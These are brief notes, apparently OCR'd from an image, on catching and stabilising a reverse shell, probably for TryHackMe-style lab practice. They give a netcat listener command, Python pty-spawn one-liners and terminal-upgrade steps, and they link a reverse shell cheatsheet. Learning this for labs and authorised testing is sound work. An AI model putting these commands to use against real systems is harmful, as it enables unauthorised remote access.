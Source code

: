 php reverse.shell

# rlwrap nc -lvnp <port>

! no tty present and no askpass program specified.
> #python3 -c 'import pty; pty.spawn("/bin/sh")'
#python -c 'import pty;pty.spawn("/bin/bash")', 
#export TERM=xterm
#stty raw -echo; fg

(https://www.kumaratuljaiswal.in/2021/01/tryhackme-intro-to-shell-all-about-shell.html)
(https://github.com/swisskyrepo/PayloadsAllTheThings/blob/master/Methodology%20and%20Resources/Reverse%20Shell%20Cheatsheet.md)

